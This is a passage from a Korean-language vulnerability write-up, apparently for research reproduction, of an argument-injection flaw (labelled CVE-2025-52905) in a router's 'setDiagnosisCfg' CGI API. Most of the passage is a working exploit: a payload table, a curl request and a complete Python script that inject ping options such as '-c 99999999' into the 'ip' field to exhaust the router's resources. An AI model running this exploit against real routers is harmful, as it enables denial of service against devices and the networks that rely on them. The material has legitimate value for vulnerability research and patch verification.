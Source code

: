 > **참고**: 실제 라우터 환경과 유사하게 구성하려면 추가 설정 필요 (uci, network 등)

---

## 4. Exploit (연구 재현용)

### 4.1 PoC

해당 PoC는 관리자 권한으로 인증된 후, `ip` 파라미터에 하이픈(`-`)으로 시작하는 명령행 옵션을 주입하여 라우터의 ping 명령어를 변질시키고, 시스템 리소스를 고갈시키는 서비스 거부(DoS)를 유발한다.

| 필드 | 값 | 설명 |
|---|---|---|
| topicurl | "setDiagnosisCfg" | 호출할 취약 API 함수명 |
| ip | "127.0.0.1 -c 99999999" | 취약 파라미터. IP 주소 뒤에 하이픈(-)으로 시작하는 ping 옵션 주입 (DoS 목표) |
| num | "1" | ping 횟수. 필수 파라미터 |

#### 4.1.1 curl을 이용한 공격

```bash
curl 'http://<ROUTER_IP>/cgi-bin/cstecgi.cgi?token=<TOKEN>' \
  -H 'Content-Type: application/json' \
  -X POST \
  --data-raw '{"topicurl":"setDiagnosisCfg","ip":"127.0.0.1 -c 99999999","num":"1"}'
```

#### 4.1.2 Python PoC (exploit.py)

```python
#!/usr/bin/env python3
import requests
import argparse
import json

def exploit(target_ip, token, malicious_options):
    target_url = f"http://{target_ip}/cgi-bin/cstecgi.cgi?token={token}"
    
    headers = {"Content-Type": "application/json"}
    
    data = {
        "topicurl": "setDiagnosisCfg",
        "ip": f"127.0.0.1 {malicious_options}",
        "num": "1"
    }
    
    response = requests.post(target_url, headers=headers, 
                           data=json.dumps(data), timeout=10)
    
    if response.status_code == 200:
        print("[+] 공격 성공!")
        print(f"[*] 옵션 '{malicious_options}' 주입 완료")
    else:
        print(f"[-] 공격 실패: {response.text}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="CVE-2025-52905 PoC")
    parser.add_argument("target_ip", help="타겟 라우터 IP")
    parser.add_argument("token", help="인증 토큰")
    parser.add_argument("options", help="주입할 ping 옵션 (예: -c 99999999)")
    args = parser.parse_args()
    
    exploit(args.target_ip, args.token, args.options)
```
